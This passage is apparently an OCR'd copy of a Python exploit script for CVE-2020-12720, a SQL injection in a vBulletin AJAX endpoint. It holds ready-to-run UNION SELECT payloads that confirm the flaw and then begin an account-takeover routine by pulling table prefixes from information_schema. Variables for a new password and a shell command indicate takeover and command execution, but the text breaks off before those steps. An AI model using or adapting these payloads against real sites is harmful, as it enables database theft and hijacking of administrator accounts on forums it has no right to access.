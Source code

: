             This is a native implementation without requirements, written in Python 3.
            Works equally well on Windows as Linux (as MacOS, probably ;-)
            
            ##-->> Full creds to @zenofex and @rekter0 <<--##
    '''
    import urllib.request, urllib.parse, sys, http.cookiejar, ssl, random, string

    ## Static vars; change at will, but recommend leaving as is
    sADMINPASS = '12345678'
    sCMD = 'id'
    sURL = 'http://192.168.50.130/'
    sUSERID = '1'
    sNEWPASS = '87654321'
    iTimeout = 5

    ## Ignore unsigned certs
    ssl._create_default_https_context = ssl._create_unverified_context

    ## Keep track of cookies between requests
    cj = http.cookiejar.CookieJar()
    oOpener = urllib.request.build_opener(urllib.request.HTTPCookieProcessor(cj))

    def randomString(stringLength=8):
        letters = string.ascii_lowercase
        return ''.join(random.choice(letters) for i in range(stringLength))

    def getData(sUrl, lData):
        try:
            oData = urllib.parse.urlencode(lData).encode()
            oRequest = urllib.request.Request(url = sUrl, data = oData)
            return oOpener.open(oRequest, timeout = iTimeout)
        except:
            print('----- ERROR, site down?')
            sys.exit(1)

    def verifyBug(sURL,sUserid='1'):
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,"cve-2020-12720",8,7,6,5,4,3,2,1;--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if not 'cve-2020-12720' in sResponse:
            print('[!] Warning: not vulnerable to CVE-2020-12720, credentials are needed!')
            return False
        else:
            print('[+] SQLi Success!')
            return True

    def takeoverAccount(sURL, sNEWPASS):
        sPath = 'ajax/api/content_infraction/getIndexableContent'
        ### Source: https://github.com/rekter0/exploits/tree/master/CVE-2020-12720
        ## Get Table Prefixes
        lData = {'nodeId[nodeid]' : '1 UNION SELECT 26,25,24,23,22,21,20,19,20,17,16,15,14,13,12,11,10,table_name,8,7,6,5,4,3,2,1 from information_schema.columns WHERE column_name=\'phrasegroup_cppermission\';--'}
        sResponse = getData(sURL + sPath, lData).read().decode()
        if 'rawtext' in sResponse: sPrefix = sResponse.split('rawtext')[1].split(':')[1].replace('}','').replace('"','').replace('language','')
        else: sPrefix = ''
        #print('[+] Got table prefix "'+sPrefix+'"')
